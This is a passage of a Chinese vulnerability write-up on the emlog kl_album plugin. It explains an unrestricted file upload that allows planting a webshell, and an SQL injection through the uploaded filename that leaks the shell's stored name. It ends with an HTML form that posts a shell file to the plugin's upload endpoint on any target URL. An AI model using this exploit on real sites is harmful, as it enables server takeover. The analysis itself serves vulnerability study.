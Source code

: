 从上面的代码中我们发现，对于之前传入的$_type这个变量在这个函数里根本就没有起到任何左右，函数中定义的$imtype = array('jpg','png','jpeg','gif');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

```
$extension  = strtolower(substr(strrchr($filename, "."),1));
$uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
$attachpath = $uppath . $fname;
...
...
...
if(@!move_uploaded_file($tmpfile ,$attachpath)){ 
```

这里我们可以发现上传的文件名是：

```
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension; 
```

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是echo 'kl_album_successed';。难道，我们需要暴力破解shell名字？

我们返回kl_album_ajax_do.php，可以发现上传的if语句中有如下代码：

```
$result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})"); 
```

这里将$_FILES['Filedata']['name']直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。
所以所以，这里我们正好用到这个特性，通过报错可以将$upfname这个字段爆出来，这也就是我们上传成功的shell名字。
如何报错？上传文件名里加个单引号即可。

### 漏洞复现

```
<form id="exp" method="post" enctype="multipart/form-data">
<p>target url > <input id="url" type="text" style="width: 300px"></p>
<p>shell file > <input type="file" name="Filedata"></p>
<input name="album" type="hidden" value="111111" >
<p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
</form> 
```

保存为html，本地打开：

![image](../img/e19c7fad475e8ecea5c1d49fea29b750.png)
